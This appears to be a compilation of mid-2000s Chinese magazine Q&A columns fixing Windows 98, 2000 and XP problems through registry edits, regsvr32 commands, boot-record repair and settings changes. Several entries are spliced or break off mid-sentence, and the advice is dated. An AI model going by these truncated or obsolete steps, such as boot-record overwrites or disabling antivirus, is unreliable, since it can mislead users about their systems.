现在每家网上银行在第一次使用时都需要安装其客户端插件程序，如果不能成功安装，则无法正常使用。而Windows XP SP2以及系统中安装的一些插件屏蔽程序都会阻止网上银行插件的安装。如果你使用了Windows XP SP2，首先应打开IE，点击“工具→Internet选项→安全”，接着单击“自定义级别”按钮，在打开的“安全设置”窗口中将“ActiveX控件和插件”下的所有项的设置选择为“提示”（见图3）。这样，当你打开网上银行页面时，如果以前没有安装插件，系统就会显示是否安装插件的提示窗口，选择“是”即可。
打开UPIEA 2005，单击“插件免疫”按钮，接着进入“日常”选项卡，取消那些已经被免疫的银行项目的勾选，然后按下“应用”，这样网上银行的插件就不会被屏蔽了。



（Dream）

## 系统

### 安装 Windows 98 时出现 SU0167 错误

问:我在电脑上安装 Windows 98 过程中，屏幕上出现了 SU0167 的错误提示信息，随后安装被中断。请问为何出现这种错误提示？具体该如何解决？（北京 Cool）

答:出现 SU0167 的错误提示信息是由于安装分区中存在重名系统文件夹造成的。因为当前安装分区中已经存在了一个名为“Desktop”的文件夹，而在 Windows 98 安装过程中将生成一个名为“Desktop”的文件夹存放系统文件，因此当安装程序发现由于已经存在了这个文件夹从而导致无法执行生成操作后，就会发出错误提示并终止 Windows 98 的安装。解决该问题的方法是将当前分区中的“Desktop”文件夹删除或重新命名，然后再运行安装程序即可。

### 磁盘空间充裕却为何提示空间不足

问:我在安装 Windows 98 时，系统提示磁盘空间不够，安装无法进行。但查看了磁盘上的剩余空间后发现磁盘上的空间足够安装。请问，这种情况是怎么造成的？如何才能正确安装？（上海 李海）

答:在安装 Windows 98 时会执行一个磁盘空间检查的程序，如果你电脑中的硬盘存在碎片过多等问题，该程序就会发出“磁盘空间不足”的提示。解决该问题的方法是在执行 Setup.exe 这个系统安装命令时加上“/is”这个参数，也就是输入“Setup/is”命令，这样可以使安装程序忽略磁盘空间检查程序的步骤，从而使系统安装成功。

### 拥有 512MB 内存的电脑总提示内存不足

问:我的 Windows 2000 最近总是提示内存不足，可我的电脑中安装了 512MB 的内存啊？（传说）

答:导致该问题的原因主要有如下几个方面：

- (1) 系统中设置的“虚拟内存”容量不够，你可以在系统桌面上用鼠标依次选择“开始→设置→控制面板→系统→高级→性能选项”，接着在“虚拟内存”下单击“更改”按钮，在“驱动器”列表中选择系统安装的盘符，随后在“所选驱动器的页面文件大小”下的“初始大小 (MB)”或“最大值 (MB)”框中适当增大数据值，然后单击“设置”并重新启动系统。
- (2) 系统后台驻留程序太多消耗了过多的资源。应及时关闭一些运行过的程序，建议关闭杀毒软件或防火墙后看能不能解决问题。
- (3) 一些被运行的程序本身存在缺陷，观察一下是否在运行某些程序时出现上面的提示。
- (4) 如果你近期刷新过主板或显卡的 BIOS，那么不成功或不适当的刷新操作也会导致这个问题，建议重新刷回原来的版本或更完善的版本。

### 杀毒软件无法预防 MSN 感染小尾巴病毒

问:我在使用 MSN Messenger 时总是感染“MSN 小尾巴”这个病毒，而我的系统中安装了杀毒软件却无法预防。请问这个问题该如何解决？（内蒙古 田兴旺）

答:MSN Messenger 较新版本中提供了一个查毒接口，通过在 MSN Messenger 中进行相关设置即可解决该问题。具体的操作步骤如下：

- (1) 首先更新杀毒软件的病毒库，保证杀毒软件可以查杀“MSN 小尾巴”病毒。
- (2) 确定 MSN Messenger 是最新版本，如果不是请升级。
- (3) 启动 MSN Messenger，在界面窗口中选择“工具”菜单项。
- (4) 在随后弹出的下拉菜单中选择“选项”，然后选中“消息”标签。
- (5) 在出现的窗口中勾选“使用下列程序进行病毒扫描”，并选你安装的杀毒软件主程序，保存退出后即可。

### 如何备份 Windows XP 的激活信息

问:我的电脑安装的是 Windows XP 操作系统，我该怎样备份我的激活信息？（安徽 陈富贵）

答:将 system32 文件夹下的 wpa.dbl 和 wpa.bak 两个文件备份出来，同时也要将安装 CDKEY 备份起来，以后重装时用这个 CDKEY 安装好系统后，直接将两个文件复制进 system32 文件夹下就可以激活 Windows XP 了。需要注意的是，这样备份的激活信息只对安装信息完全一样的系统才有效，比如说硬件环境不变，硬盘分区不变等。

### Windows XP 激活文件通用性问题

问:我在原版的 Windows XP 下激活的 wpa.dbl 文件能否通用于 SP2 的系统中，中英文版能否通用？（郑州 冯晓东）

答:不能通用，原版下的 wpa.dbl 文件只能用于原版，而 SP2 下的 wpa.dbl 文件只能用于 SP2，并且中文版的备份信息不能用在英文版上。

### Windows Me 接 USB 外置光驱出问题

问:我的电脑安装的操作系统是 Windows Me，安装了一个 USB 外置光驱后发现在“设备管理器”中的“USB Mass Storage Device”设备项前面出现了一个绿色问号。请问是不是该设备出现了故障，如何处理？（深圳 PPMM）

答:显示绿色问号并不表示该设备发生了故障，你可以不用理会，USB 外置光驱可以正常使用。

### 浏览某特定网站时 IE 总是自动关闭

问:我在 Windows 2000 中使用 IE 上网时，发现只要一打开某网站，IE 就会自动关闭，而打开别的网站时，IE 浏览正常。我从另一台电脑上访问该网站并没有出现这个现象。请问该如何解决？（内蒙古 石峰）

答:你可以在系统安装分区中找到 Documents and Settings 文件夹，接着进入其下你登录用的用户名文件夹，将里面的 Cookies 文件夹删除，然后重启 IE 进行浏览即可。

### 安装软件时出现的接口支持问题

问:为什么我在系统中安装软件时总是提示“安装程序启动安装引擎失败：不支持此接口”的错误？（湖北 老末）

答:导致该问题的原因主要有以下几个原因：

- (1) 最常见的原因是软件安装时需要用到的 Windows installer 出现了问题。你可以在系统中选择进入“控制面板→管理工具→服务”，找到 Windows installer 服务，启动该服务，然后试着安装软件，如果仍然存在问题，你可以到微软的官方网站上下载最新的 Windows installer 2.0 版进行安装。
- (2) 你在系统中安装了迷你版 ACDSee 5.0，安装这个软件后，系统组件服务将会被破坏，造成不少程序无法安装，提示“安装程序启动安装引擎失败：不支持此接口”的错误。你应该卸载这个软件以解决问题。
- (3) 你所安装的软件的安装程序并不是一个 EXE 文件，而是 MSI 文件，而 MSI 是脚本文件，这样当你运行 MSI 文件安装程序时就有可能出现上述提示，此时你可以用鼠标双击运行 instmsiw.exe 文件来解决问题，因为 instmsiw.exe 文件里包含了所有关于运行 MSI 文件所需要的文件。
- (4) 你没有安装软件的权限，应该使用管理员权限来安装软件。
- (5) 操作系统中的相关文件被损坏，建议对系统进行修复安装。

### 启动系统时出现 VXD 和 386 错误

问:我的操作系统在启动时显示了好几个 VXD 和 386 文件无效的错误提示。请问这是怎么回事？（河南 萧何云）

答:导致出现该错误提示的主要原因有：

- (1) 你最近在系统中安装了不兼容的硬件驱动程序或网络组件。你可以将这些程序卸载以解决问题。
- (2) 你最近卸载了某些程序，而这些程序由于自身的不健全而导致注册表中的数据被损坏，如果你的系统中备份过注册表文件，可以进行恢复操作，如果没有，也可以通过一些注册表修复工具软件进行修复。如果一时找不到工具软件，你也可以在“开始→运行”中运行 regedit 命令启动“注册表编辑器”，通过菜单中的“搜索”功能将系统启动时显示的那些文件的主键找到并删除，然后保存退出“注册表编辑器”即可。

### 再现 Windows XP 加密分区的文件

问:我用的是 Windows XP，并且将整个 D 分区都使用 Windows XP 的加密功能加密了，最近由于系统出现了故障，我就把安装了 Windows XP 的 C 分区进行了格式化并重装了 Windows XP，但此时却出现了严重问题，在新装的 Windows XP 中无法读取 D 分区的内容，而里面有很多非常重要的文件，请问如何才能解决这个问题？（甘肃 文平）

答:这是由于你重装 Windows XP 后，文件夹的校对码已被改变，所以操作系统把你当成了非法用户，因此无法读取这个被加密的分区了。解决该问题的方法如下：

- (1) 在系统桌面上用鼠标依次选择“开始→我的电脑”。
- (2) 在随后出现的窗口中用鼠标右键单击你加密的磁盘分区 D 的图标。
- (3) 在弹出的右键菜单中依次选择“属性→工具”。
- (4) 单击“开始备份”按钮后你就可以看到加密区域里的所有文件了，依照“备份或还原向导”的提示把这些文件备份到硬盘的其他分区中即可。

### Windows XP 开机时没有运行“启动”中的项目

问:我的电脑安装的是 Windows XP，在系统中安装了不少系统启动时候就运行的软件，比如杀毒软件、自动拨号软件等，有几个软件是通过“开始→程序→启动”添加快捷方式来让其自行启动的，不过我的 Windows XP 中的“启动”中的程序在开机时没有运行，这是怎么回事？（成都 刘凌）

答:这是由于注册表中控制“启动”的键值丢失或损坏而造成的，通常控制键值分为通用组（就是对所有用户起作用的）和用户组，只要对应地将注册表键值和自己系统的“启动”路径相对应即可，其中注册表的位置和对应的键值如下：

- (1) 主键:[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders]
    键名:Startup, 键值:%USERPROFILE%\Start Menu\Programs\Startup
- (2) 主键:[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders]
    键名:Startup, 键值:C:\Documents and Settings\<User>\Start Menu\Programs\Startup（注意和自己的账户对应）
- (3) 主键:[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders]
    键名:Common Startup, 键值:%ALLUSERSPROFILE%\Start Menu\Programs\Startup
- (4) 主键:[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders]## 无法启动EXE文件扩展名的程序

问：我的Windows XP中所有可执行文件只要双击执行就提示不能打开xxx.exe文件，当选择以管理员身份运行时就提示找不到该文件。这是怎么回事？此前我的系统中过毒，不过我已经用杀毒软件杀掉了啊！怎么样才能解决？（广西 何可）

答：这是个问题，一般是由于病毒在注册表中修改了.exe文件关联项目，从而导致系统无法运行这种类型的文件，解决方法：

- 1. 由于无法运行.exe文件，而又需要通过Regedit.exe来启动注册表，所以先要把C:\Windows目录中的Regedit.exe文件重命名为Regedit.com，运行Regedit.com启动注册表编辑器。
- 2. 定位到[HKEY_CLASSES_ROOT\.exe]，将右侧窗口中“默认”的键值改为“exefile”。
- 3. 依次展开[HKEY_CLASSES_ROOT\exefile\shell\open\command]分支，然后将右侧窗口中的“默认”的键值改为“"%1" %*”（不要外侧引号）。
- 4. 关闭注册表编辑器，运行一个.exe文件看是否正常，如果还不行可以到http://www.dougknox.com/xp/file_assoc.htm（这里提供了其他类型文件关联修复的注册表）处下载一个“EXE File Association Fix”文件，解压后将文件合并到注册表中即可。

## 资源管理器的“文件夹”侧边栏空白问题

问：我的是Windows 2000，不过当打开系统的资源管理器后发现“文件夹”的侧边栏显示是空白的，原来的文件列表怎么不见了？（上海 金快乐）

答：这个问题比较少见，可能是由于病毒引起的，造成了某些.DLL文件注册失效或系统注册表中某些键值丢失，解决具体方法如下。

- 1. 在另外一台Windows 2000中打开注册表编辑器，将[HKEY_CLASSES_ROOT\CLSID\{EFA24E64-B078-11d0-89E4-00C04FC9E26E}]主键导出，然后拷贝到故障机器，合并到注册表中即可。
- 2. 如果这样还不行，可以通过在“开始→运行”中依次输入下列命令：REGSVR32 /i SHDOCVW.DLL REGSVR32 /i BROWSEUI.DLL

## MSN Messenger 7.0 登录错误

问：我喜欢尝试各种新软件，于是在MSN Messenger 7.0（以下简称MSN）发布后马上换了新版本。于是问题就来了，一登录服务器就会出现“0X81000370”错误，导致无法正常登录。

答：在“开始→运行”对话框中输入“Regsvr32 softpub.dll”（不含引号）并点击“确定”。MSN即可正常登录了。此方法适用各种版本。

## 让幸福五笔在Windows XP中安家

问：我的电脑中安装了Windows 98和Windows XP双操作系统，在Windows 98中安装了幸福五笔字型输入法，但该输入法无法在Windows XP中安装。请问有无解决办法？（青海 林佳歆）

答：你可以通过如下操作步骤解决问题：

- 1. 在Windows XP的桌面上用鼠标依次选择“开始→我的电脑”，进入系统所在分区，接着进入“WINDOWS\System32\dllcache”（如果没有，则进入“Program files\Windows NT\Accessories”）文件夹，找到Imegen.exe文件，运行它会打开“输入法生成器”窗口。
- 2. 单击“逆转换”标签，再单击“打开文件”按钮，在Windows 98的“C:\WINDOWS\System”目录下找到LXWB.MB（码表文件）。如果在这里找不到，请利用搜索功能查找。
- 3. 单击“逆转换”，转换完成后，生成文件LXWB.txt（码表原文件），记住保存的位置，以备下步使用。
- 4. 在“输入法生成器”窗口中单击“创建输入法”标签，再单击“浏览”找到码表原文件LXWB.txt。单击“转换”按钮，当系统询问“构词码是否编入所有GBK字符”时，选择“否”。
- 5. 单击“创建”按钮，在出现提示时单击“确定”按钮，然后根据提示单击“是”按钮即可完成安装。

时，为什么总是没有任何响应啊？我的IE是6.0，系统是Windows XP SP1。（上海 孙明辉）

答：这是由于Internet链接（*.url文件）的文件关联出了问题，以下是解决方法：

- 1. 在IE中选择菜单“工具→Internet选项”，在“程序”选项卡下单击“重置Web设置”，单击“确定”退出，看看问题是否解决。
- 2. 如果上面方法未能解决问题，点击“开始→运行”，在运行框中输入“REGSVR32 /i SHDOCVW.DLL”（不含引号），重启即可。

## 为什么IE经常提示禁止下载

问：我用的是Windows 98，浏览器为IE6.0最新版，不过不知道为什么用IE下载东西时总提示禁止下载，不知道哪儿设置出了问题，现在我只能用网际快车下载，要下载一些小文件时无法像IE那样顺手即来，怎么才能让IE恢复下载功能？（长沙 陶国远）

答：这个问题是由于疏忽而将IE的安全级别设置得太高了，在IE属性中的某些安全级别设置改变了，所以老提示不能下载东西。打开IE的“Internet选项”，在“安全”选项卡中分别检查4个安全区域的安全级别，看看是不是默认级别，如果不是，可通过单击旁边的“默认级别”按钮恢复设置。

## 找回丢失的“隐藏不活动的图标”

问：我用的是Windows XP，不过最近发现打开“开始”菜单的属性，在“任务栏”标签下的那个“隐藏不活动的图标”的选项变成了灰色的不可用状态，无法进行勾选，如何将此选项找回来？（湖南 元韦）

答：可能是你自己无意中修改了组策略中的某些设置，导致注册表中的相关键值发生了变化，从而使得“隐藏不活动的图标”的选项设置被禁用了，请按照以下方法进行修复。

- 1. 点击“开始→运行”，在运行框中输入“gpedit.msc”，回车后打开组策略编辑器。
- 2. 依次展开“用户配置→管理模板→任务栏和开始菜单”，在右侧窗格中将“关闭通知区域清理”设置为“未配置”。
- 3. 关闭组策略编辑器，重启后即可生效。

## 控制面板的“用户账户”不能显示图片

问：为什么我打开Windows XP控制面板中的“用户账户”时，发现这里原来图片位置的地方全是红叉，图片不能显示了，这是怎么回事？（河北 孙洁）

答：这个故障比较少见，这个可能是*.ico类型文件关联有问题，解决方法：

- 1. 将以下内容保存为一个.REG文件，然后合并到注册表中。

```
Windows Registry Editor Version 5.00
[HKEY_CLASSES_ROOT\.ico]
@="icofile"
"Content Type"="image/x-icon"
```

- 2. 如果上面的步骤无法解决问题，可以运行“REGSVR32 /i MSHTML.DLL”（不含引号）命令来解决。

## 浏览器无法显示Flash文件

问：我用的是Windows 2000，最近不知道什么原因，浏览器不能显示Flash了（表现为Flash显示位置总是显示一个红叉），我换了好几个浏览器都是一样，并且确定IE设置正确且没有使用Flash屏蔽的插件，这是什么原因造成的，应该如何解决这个问题？（安徽 李遥铭）

答：造成这个问题的原因大致有两个，一个是由于你没有正确安装或你自己阻止IE安装Flash支持的插件，另一个则是已经安装的Flash插件损坏了但系统并没有要求重新安装。不管哪个原因，解决的方法都是先完全卸载Flash插件然后重新安装。

第一步：由于系统并不提示重装Flash插件，这就是由于控制这个属性的注册表键已经被“骗”了，导致系统认为插件已经安装，我们可以通过修改注册表的办法来解决，打开

## 安全证书失效引起的问题

问：我一直在用IE6上网，最近在浏览网页时，无论登录任何一个网站，即使这是一个非常安全可靠的网站，桌面上也会跳出一个窗口，指出该网站存在安全问题。请问这是怎么回事，如何才能解决这个问题？（上海李飞）

答：出现这个现象的原因很可能是因为你的操作系统中所安装的根源证书已经失效了，根源证书是用来验证其他证书（包括安全性证书在内）的应用程序。你可以登录www.verisign.com/support/site/update.html网址，点击“Accept”按钮下载安装最新版本的根源证书。

另外还有一种可能是“日期/时间”选项设置错了。比如说使用的是多年前的日历。你可以双击“任务栏”上时间显示图标，将日历设置为正确的日期和时间并保存退出即可。

## ERD磁盘——系统救命稻草

问：我的Windows 2000不能启动了，根据现象上网查询，说有可能是系统文件遭到破坏，要用ERD磁盘来恢复。请问系统文件是什么性质的文件？ERD磁盘又是什么性质的磁盘，如何制作？（山东 余文景）

答：Windows系统文件是Windows用来加载、配置和运行操作系统的一系列重要文件。通常绝对不能删除和移动系统文件。Windows 2000以上的操作系统对用户进行的系统文件操作都会提出不允许操作的警告。

但是，有时因为某种特殊的操作或软件冲突等原因会使某些系统文件遭到破坏。要恢复被破坏的系统文件，就要用到紧急修复盘，紧急修复盘英文简称ERD。如果你事先制作了系统的ERD磁盘，则可以用它来自动恢复受破坏的系统文件。

Windows 2000环境下紧急修复磁盘的制作方法是：依次选择“开始→程序→附件→备份”，然后从备份窗口中选择系统菜单“工具→创建一张紧急修复盘”，插入软盘，按提示操作即可。

## 恢复被病毒损坏的系统文件

问：我的Windows XP感染了病毒，由于杀毒软件不能杀除这种病毒，于是选择将系统中一些染毒的可执行文件删除掉了。我手头上有Windows XP的系统安装盘，请问在不重装操作系统的情况下如何恢复这些系统文件？（北京 何风）

答：首先在Windows XP安装盘中搜索被破坏的文件，注意文件名的最后一个字符要用下划线来代替，例如：如果要搜索Notepad.exe则需要用Notepad.ex_这个名称来进行搜索。搜到之后，打开命令行模式（在“运行”窗口中输入cmd），然后输入EXPAND D:\SETUP\NOTEPAD.EX_ C:\Windows\NOTEPAD.EXE。注意，原路径和目标路径要根据你系统的情况和原文件的位置灵活改变，如果路径中有空格，需要把路径用半角双引号括起来。如果要找的文件是在CAB文件中，由于Windows XP把CAB当作一个文件夹，所以对于Windows XP来说，只需要把CAB文件用右键拖动复制到相应目录中即可。

## Windows 2000中实现计划任务

问：Windows 9x和Windows Me启动完成后在任务栏上有一个“计划任务”图标，通过双击这个图标，可以实现“计划任务”操作。但是，在Windows 2000中的“任务栏”上已经没有这个图标了，请问在Windows 2000中如何实现“计划任务”？（北京 杨林）

答：Windows 2000取消了任务栏中的计划任务图标，但你可以执行如下操作实现计划任务：

- (1) 在系统桌面上用鼠标依次选择“开始→设置→控制面板”。
- (2) 在随后弹出的窗口中双击“任务计划”图标，在接着出现的窗口中双击“添加任务计划”图标。
- (3) 通过“任务计划向导”的指导你就可以安装这个功能了。

## 正确的用户名和密码无法登录到域

问：我公司的局域网采用了Windows 2000 Server的域用户管理模式，配置并启用了DNS和DHCP服务，客户端比较复杂，既有Windows 2000和Windows XP，又有Windows 98操作系统，使用中一直很正常。可是最近发现现在使用Windows 98客户端电脑登录到域时，即使输入的用户名和密码准确无误，系统也会报告用户名或密码不正确。请帮我分析解决一下。（山西 柳娜）

答：你可以采用启用Windows 2000 Server中的软路由的方法来解决这个问题，具体的操作步骤如下：

- (1) 在Windows 2000 Server中进入“控制面板→管理工具→路由和远程访问”。
- (2) 在服务器名处单击鼠标右键，在弹出的右键菜单中选择“配置并启用路由和远程访问(C)”。
- (3) 单击“下一步”按钮，选择单选框中的“网络路由器(T)”项。
- (4) 一直单击“下一步”按钮直至完成。

如果仍然出现问题，你还可以利用Windows 98中的Winipcfg命令解决问题，即在Windows 98系统的桌面上用鼠标依次选择“开始→运行”，在弹出的窗口输入Winipcfg命令并按回车键运行，依次选择“详细信息→选择网卡→全部释放→全部更新→确定→注册→重新登录”即可。

## 恢复Windows的启动菜单

问：我的电脑原来安装的是Windows XP，为了尝鲜又将自己硬盘分出一部分安装了Linux（RedHat Linux 9.0版本），但一段时间后就发现Linux不太符合我的使用习惯，于是又在硬盘中将Linux删除了。之后麻烦就来了——每次启动时仍会出现GRUB（Linux的一个启动管理程序）界面要我选择启动Linux还是Windows，怎样才能恢复未安装Linux前的启动方式呢？（石家庄 金剑开）

答：这是由于在安装Linux时选择了“将GRUB写入引导区并控制启动”，这样就会将GRUB（常见的引导器还有LILO）装入到硬盘的主引导记录（MBR）中，这时系统引导的控制权就由Windows本身的启动模块转交到Linux的启动管理器LILO或GRUB手中了。简单地卸载/删除掉Linux并不会将LILO或GRUB从硬盘的主引导记录中抹去，所以机器启动时仍然会出现操作系统选择画面。

- 1. 用Windows的启动软盘引导，在命令行提示符下键入“fdisk /mbr”（不含引号）。
- 2. 重置MBR引导记录后，重新启动计算机，此时的引导控制权又回到Windows手中了！

如果你没有启动软盘，使用Windows的故障恢复控制台也能完成此操作，方法是在其下输入命令“fixmbr \Device\HardDisk0”（不含引号）。

```
fdisk /mbr
fixmbr \Device\HardDisk0
```

## 恢复XP系统下损坏的文件

问：我的电脑的操作系统是Windows XP，最近硬盘出现了故障，搞不清是物理坏道还是逻辑坏道，但可以肯定的是我存放在D盘下的一些文件被损坏了，有没有办法帮我找回这些文件呢？（北京 苏艳）

答：你可以使用一些专门的修复工具来修复你被损坏的文件，也可以在XP系统自带的命令行提示符下来修复这些文件，前提是这些数据依然存在且没有被其他数据覆盖。以修复你的D盘根目录下的Back.txt文件为例，操作方法为：点击“开始→运行”，在运行输入框中输入“CMD”（不含引号）后回车，在弹出的命令行提示符下键入“Recover d:\Back.txt”（不含引号）回车即可。恢复过程不可中止，应当一次恢复一个文件。如果你的硬盘确有物理坏道，使用此方法会丢失一部分存放在坏道上的数据，你可以在恢复文件后加以编辑或重新输入丢失的信息。

```
Recover d:\Back.txt
```

## 用户账户的奇怪故障

问：最近我打开“控制面板”中的“用户账户”选项时，系统出现“HTML错误”，并提示“Microsoft (R) HTML Application host遇到问题需要关闭。我们对此引起的不便表示抱歉。”应该如何解决呀？（湖南 李想）

答：这是由于安装了未更新的“金山毒霸2003”而引起的，解决方法是到毒霸官方网站上升级毒霸，或者按照以下步骤进行恢复：

首先点击“开始→运行”，在运行输入框中输入“cmd”回车（Windows 2000/XP使用“cmd”，Windows 98则使用“command”）打开命令行窗口。然后在刚才打开的命令行窗口中输入以下代码（假定你的毒霸安装目录为c:\kav2003，如果不是则将代码中的目录替换为实际安装目录）：

```
cd c:\kav2003
regsvr32 /u C:\kav2003\kainplus.dll
regsvr32 /u C:\kav2003\kascript.dll
```

## 网游挂机为什么也“卡”

问：我是一个网游爱好者，一直喜欢使用外挂挂机，可发现自己所用的挂机程序非常“吃”CPU，有时查看“进程管理器”竟发现挂机程序的CPU占用率竟然达到90%以上，导致我的电脑反应迟钝，形同死机，有没有办法让它的CPU占用率降低呢？（河北 闫小力）

答：现在针对各类网游的挂机程序越来越多，其制作者的编程水平也千差万别。由于某些挂机程序在设计上不够完善，内存没有及时释放或陷入了死循环而导致CPU占用率过高。首先你可以尝试更新挂机程序的版本，如果你的挂机程序迟迟不发布新版本或新版本仍未解决问题，你可以试试调整一下设置：右击“我的电脑”选择“属性”，在“高级”选项卡中点击最上方“性能”栏中的“设置”按钮，在弹出的“性能选项”窗口中选择“高级”选项卡，将“处理器计划”中的“调整以优化性能”设置成“后台服务”，最后点击“确定”按钮，这样可以在一定程度上缓解程序占用CPU过高，导致系统反应迟钝的问题。

## 双击打开文件和文件夹功能失效

问：我使用的是Windows 2000，前几天在别人用过我的电脑后，发现在资源管理器中双击打开文件或文件夹的功能失效了，现在只需要点一次鼠标就能打开了，这会给我们操作带来麻烦。请问如何恢复原来的双击打开文件功能？（杭州 十小龙）

答：你只要按如下方法设置即可恢复此功能。从“开始→设置→控制面板→鼠标”调出“鼠标属性”设置窗口，在第一个选项卡“鼠标键”中，选择中部“文件或文件夹”分组框中的“双击打开一个项目（单击选择一个项目）”，然后按“确定”即可。

## 系统文件被替换或删除后的修复

问：我的电脑中安装的是Windows 2000，最近出现提示说有系统文件被替换或删除，请问我该如何进行恢复？（河北 胡大鹏）

答：你可以使用Windows 2000系统中自带的系统文件保护程序进行恢复，点击“开始→运行”，在运行输入框中输入“cmd”回车，在命令行提示符下输入“sfc /scannow”回车即可。

## 双系统出现 “boot.ini 非法” 错误

问：我在电脑上安装了两块硬盘，第一个硬盘上安装的是 Windows 98 操作系统，第二个硬盘上安装的是 Windows 2000 专业版，最近在启动系统时屏幕上出现 “boot.ini 非法” 的错误提示。想在 Windows 2000 系统的 “系统特性” 下的 “高级” 选项里使用 “启动和故障恢复” 功能修复系统时，系统提示 “无法打开 C:\boot.ini 文件。无法更改操作系统及超时设置”。请问我该怎么办？（天津 小菜鸟）

答：出现这个问题的原因是安装了 Windows 98 系统的那块硬盘上 C 分区中的 boot.ini 文件丢失导致错误提示，你可以采用手工自建文件的方法来解决问题。首先在C分区根目录下新建一个 “记事本” 文件，打开后输入以下语句：

```
[boot loader]
timeout=30
default=multi(0)disk(0)rdisk(0)partition(1)\WINDOWS
[operating systems]
multi(1)disk(1)rdisk(0)partition(1)\WINDOWS="Microsoft Windows 2000 Professional" /fastdetect
C:\="Microsoft Windows"
```

然后把此文件保存为 boot.ini 文件即可。

## WinXP 没有正确识别内置调制解调器

问：我原来在电脑的 C 分区中安装了 Windows 98，现在又在 D 分区中安装了 Windows XP。可发现在 Windows XP 下的 “设备管理器” 里没有出现我安装的内置调制解调器的选项，而且 “设备管理器” 里 “PCI 简易通讯” 前还出现了一个问号。请问如何解决这个问题？（河南 杨永忠）

答：这种现象一般是因为 Windows XP 没有正确识别和安装 Modem 的驱动程序造成的。你在安装 Windows XP 前最好打开机箱，先将 Modem 拔出，安装好系统后再将 Modem 插回到主板上，这样系统就能自动发现新硬件，并自动弹出硬件安装向导，根据提示就能顺利安装驱动程序了。

如果你对硬件操作不熟悉，也可以采用如下步骤：点击 “开始→我的电脑→管理→电脑管理→设备管理器”，在 “其他设备” 项下用鼠标右键单击 “PCI 简易通讯控制器”，选择 “卸载→扫描检测硬件改动”，在出现的窗口中的 “您期望向导做什么？” 的选项中，选择 “从列表或指定位置安装(高级)”。接着在 “请选择您的搜索和安装选项” 下的选项中选择 “不要搜索。我自己选择要安装的驱动程序”，单击 “下一步”，选择 “从磁盘安装”，选中驱动程序所在的目录，随后按屏幕提示操作即可。

## WinDVD 缺少 WNASPI32.DLL 无法运行

问：我在 Windows 2000 下使用 WinDVD 软件时，系统提示说缺少一个名叫 WNASPI32.DLL 的文件。请问这时该如何处理？（河南 萧如虹）

答：你可以找一个安装了 Windows 98 系统的电脑，在其中的 WINDOWS\SYSTEM 文件夹下就有这个 WNASPI32.DLL 文件，你只需要将该文件复制到你电脑中的 WINDVD 文件夹下使用就可以恢复正常了。

## 如何正确删除拥有管理员权限的账户

问：我在 Windows XP 中建立了多个账户，都拥有管理员权限，而且这些账户均登录过系统，这样系统都对应地在系统盘的 Documents and Settings 目录中产生一个账户配置信息目录。这样，当我要想删除其中一个账户时常常出现 Documents and Settings 目录中的配置信息目录无法删除的情况，请问如何才能正确删除一个拥有管理员权限的账户？（北京 程飞）

答：要彻底地删除一个拥有管理员权限的账户，要先将注册表中信息删除，然后再删除保存配置文件的目录，这个目录是不直接删除的。正确的步骤是：

- (1) 用拥有管理权限的账户（不是要删除的目标账户）登录系统。
- (2) 在 “开始→运行” 中输入 compmgmt.msc，在打开的 “计算机管理” 控制台中定位到 “系统工具→本地用户和组→用户”，在右侧窗口的列表中选中所要删除的目标账户，右键点击之并选择 “删除”，关闭控制台。
- (3) 通过 “Win + Break” 组合键打开系统属性，在 “高级” 选项卡中打开用户配置文件的 “设置”，在列表中选中目标账户，单击 “删除” 即可。

## 无法打开 “搜索” 功能

问：我用的是 Windows XP SP2，最近通过 “开始→搜索→文件或文件夹” 方式，或在文件夹窗口中按下 “搜索” 无法打开文件 “搜索” 功能，并弹出 “A file that is required to run Search Companion cannot be found. You may need to run setup.（无法找到运行搜索助理所需要的一个文件。您可能需要运行安装）” 的错误提示，请问这个故障如何修复？（ccf 独自在家）

答：这个是一个比较经典的故障，相信不少朋友都碰上过，因为即使没有搜索助理功能，但并不影响系统的正常运行，所以很多朋友都不太在意。其实产生故障的原因有两个，一是文件损坏，二是 DLL 文件注册失效。恢复方法如下：

- (1) 打开 %systemroot%\inf 目录，找到 Srchasst.inf 文件。然后右键点击该文件，选择菜单 “安装”，根据系统提示插入安装光盘即可。待安装完成后，检查一下是否可以运行 “搜索”，如果还不行则进行下一步。
- (2) 打开 “记事本”，输入下面的内容，然后将内容另存为一个.BAT 文件，运行即可。

```
cd /d "%SystemRoot%\System32"
regsvr32 /u /s msxml3.dll
regsvr32 /s msxml3.dll
exit
```

## Windows Media Player 无法切换到完整模式

问：我在 Windows XP 中安装了 Windows Media Player 10，不知道为什么只能选择 “经典模式” 一种外观模式，不能切换回到 “完整模式” 或其他的外观模式，在 “查看” 下拉菜单中根本没有相关的选项供选择。我试过卸载（把注册表里相关项也删掉了）再重新安装安装也没用，请问怎么样才能解决？（广西 文清）

答：由于 Windows Media Player 是系统的组件，在 Windows XP 及其以上的系统的 “组策略” 中专门内置了一些控制系统组件的项目，其中就包括了对 Windows Media Player 的控制。

- (1) 点击 “开始→运行”，在 “运行输入框” 中输入 gpedit.msc 并回车，打开 “组策略编辑器”。
- (2) 点击窗口左侧的分支，依次定位到 “用户配置→管理模板→Windows 组件→Windows Media Player→用户界面”，在右侧窗口中双击打开 “设置并锁定外观” 选项。
- (3) 在弹出窗口中的 “设置” 选项卡下将设置修改为 “未配置”，点击 “确定”，最后关闭 “组策略编辑器” 即可。

## 无法打开 “添加 / 删除程序”

问：我用的是 Windows 2000，双击控制面板中的 “添加 / 删除程序” 时，系统总是提示 “找不到所需的 DLL 文件”，只好通过用其他第三方卸载软件（我用的是 MyUninstaller）来卸载不想要的软件，请问如何才能解决这个问题？（河南 李韵）

答：导致无法打开 “添加 / 删除程序” 的原因可能是动态链接库文件注册失效了，只要重新注册这些文件就可以了。

解决方法：在 “开始→运行” 中输入下列命令，并依次在弹出窗口中确认即可。

```
regsvr32 Appwiz.cpl
regsvr32 Jscript.dll
regsvr32 Mshtml.dll
regsvr32 Msi.dll
regsvr32 Mshtmled.dll
regsvr32 "c:\Program Files\Common Files\System\Ado\Msado15.dll"
regsvr32 "c:\Program Files\Common Files\System\Ole DB\Oledb32.dll"
```

## 设备名称冲突引起 Windows 98 蓝屏死机

